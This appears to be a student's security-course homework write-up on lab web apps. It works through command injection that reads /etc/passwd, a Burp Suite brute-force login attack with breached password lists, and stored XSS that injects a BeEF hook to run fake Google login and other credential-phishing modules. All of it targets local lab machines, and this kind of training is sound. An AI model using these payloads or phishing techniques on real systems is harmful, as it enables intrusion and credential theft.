









# Unit 15 Homework - Web Vulnerabilities and Hardening.

### Web Application 1: *Your Wish is My Command Injection*
-----------------------------------------------------------
If your Vagrant file is active then `Open Oracle VM VirtualBox Manager` and start your Virtual Machine.  

Start the `Terminal` in your Virtual Machine.
  > Run the following command from your `Terminal`.  
  > `cd ./Documents/web-vulns && docker-compose up`  
  > Once the `Docker Containers` are up, Open `Firefox Web Browser`  
  > Navigate to the following webpage: <http://192.168.13.25>   
  > Log in with the following credentials:  
  >   - User name: `admin`  
  >   - Password: `password`  
  > Select the **Command Injection** option or access the webpage directly at this page: <http://192.168.13.25/vulnerabilities/exec/>  

  - Enter 8.8.8.8 in 'Ping a device' section:  
    >  

  - As per the ping `8.8.8.8 && pwd` there are five levels of sub-directories, see below: 
    >   

  - Based on above, using the dot-dot-slash method `../` need to do it 5 times to access the payloads, that will display the contents of the following directories/files.  
   
    - `/etc/passwd`  
      - From Command line in `Terminal`
          

      - From the Web-Browser  
      `8.8.8.8 && cat ../../../../../etc/passwd`
        
      
    - `/etc/hosts`  
      - From Command line in `Terminal`
          

      - From the Web-Browser  
      `8.8.8.8 && cat ../../../../../etc/hosts`
        
   

### Web Application 2: *A Brute Force to Be Reckoned With*
----------------------------------------------------------
- From the `Terminal` in Vagrant run the command `sudo burpsuite` to start the `Burp Suite Community Edition`
- Open Firefox browser on Vagrant and navigate to the webpage <http://192.168.13.35/ba_insecure_login_1.php>
- Make sure the `FoxyProxy` setting on the web browser is set to `Burp`.  
   

- This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login.
  - Enter the User name: `test-user`  
  - Enter the Password: `password`  
    
- Following was displayed in the `Burp Suite` in **`Proxy`** tab under the _`Intercept`_ - Highlighting the Login and password credentials.  
  `Request to http://192.168.13.35:80`  
  ```
  POST /ba_insecure_login_1.php HTTP/1.1
  Host: 192.168.13.35
  User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 48
  Connection: close
  Referer: http://192.168.13.35/ba_insecure_login_1.php
  Cookie: PHPSESSID=6qk327baioj8ioe6p70ff6bvt1; security_level=0
  Upgrade-Insecure-Requests: 1
  
  login=test-user&password=test-passwd&form=submit
  ```
    

- From the web application tool **Burp Suite**, on the `Intercept` tab Right click anywhere to send the information to `Intruder`  
  - Select the `Intruder` tab, and verify the `Target` tab:  
    
  
  - Select the `Position` tab and change the `Attack type:` to **`Cluster bomb`**, also clear all payload positions, except for the login and password credentials.  
      

  - You've been provided with a list of administrators and the breached passwords:

     - [List of Administrators](listofadmins.txt)
     - [Breached list of Passwords](breached_passwords.txt)
  
  - Select the `Payloads` tab, and enter the `List of Administrators` file provided above into the Payload Options [Simple list] for the set 1.  
      
  - Add the passwords from the `Breached list of Passwords` file provided above into the Payload Options [Simple list] for the set 2.  
      
  - Click the `Start attack` button to get the results.  

- Results from the analysis that was completed from the `Intruder` show that there was one successful login username/password combination. It was user name of "**`tonystark`**" and the password "**`I am Iron Man`**". Below snapshot displays the `Successful login! You really are Iron Man :)` in the `Response` tab.  
    

### Web Application 3: *Where's the BeEF?*
------------------------------------------
#### 1. Set up BeEF  
  1. From the `Terminal` in Vagrant run the command `sudo beef` to start the **BeEF**  
  2. When prompted for a password, enter `cybersecurity`.
  3. This will kick off the BeEF application and return many details about the application to your terminal.
  4. To access the BeEF GUI, right-click the first URL `UI_URL: http://127.0.0.1:3000/ui/panel` and select Open Link to open in default browser, or copy the link and open the browser of your choice `(Chrome, or Microsoft Edge)`. Paste it in the address bar and press enter.
  5. When the BeEF webpage opens, login with the following credentials:
    - Username: `beef`
    - Password: `feeb`

#### 2. Prepare the Replicants Website  
  1. From the `Terminal` in Vagrant navigate to `~/Documents/web-vulns` directory.
  2. Run the command `sudo docker-compose up`
  3. Go to the browser and enter the following in the address bar: `http://192.168.13.25/vulnerabilities/xss_s/`
  4. Reset the database and the login with the following credentials:
    - Username: `admin`
    - Password: `password`

#### 3. Start the BeEF hook, and write the payload
  1. From the `Terminal` copy the `BeEF hook: http://127.0.0.1:3000/hook.js`
  2. Write the `Payload: <script src="http://127.0.0.1:3000/hook.js"></script>`

#### 4. Inject this payload  
  - Inject in the message box field with <script src="http://127.0.0.1:3000/hook.js"></script>, it can't display more than 50 characters because there was a limit of `maxlength="50"` character in the source code.
  
  
  - Solution: From the Browser press `Ctrl+Shift+I` for Developer Tools. Under the `Element` in Chrome or `Inspector` in Firefox locate the `<div class="body_padded">` and in sub categories, locate the `<textarea name="mtxMessage" cols="50" rows="3" maxlength="50">`. Change the maxlength to any number greater than 50, for example `maxlength="75"`, or just remove this code limit.
    
  

#### 5. A few BeEF exploits.
  - First to attempt a social engineering phishing exploit to create a fake Google login pop up, we can use this to capture user credentials.
  - Select `Google Phishing` under `Social Engineering` to access this exploit.
       
  - After selecting this option, the description of the exploit and any dependencies or options are displayed in the panel on the right.
       
  - To launch the exploit, select Execute in the bottom right corner.
  - After selecting Execute, return back to your browser that was displaying the Butcher Shop website. Note that it has been changed to a Google login page.
  - A victim could easily mistake this for a real login prompt.
  - Lets see what would happen if a victim entered in their credentials. Use the following credentials to login in to the fake Google page. 
    - Username: `hackeruser`  
    - Password: `hackerpass`  
        
  - Return to the BeEF control panel. In the center panel, select the first option. Note that now on the right panel, the username and password have been captured by the attacker.  
        

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

  - Social Engineering >> Pretty Theft
      
      
      
   

  - Social Engineering >> Fake Notification Bar
      
    
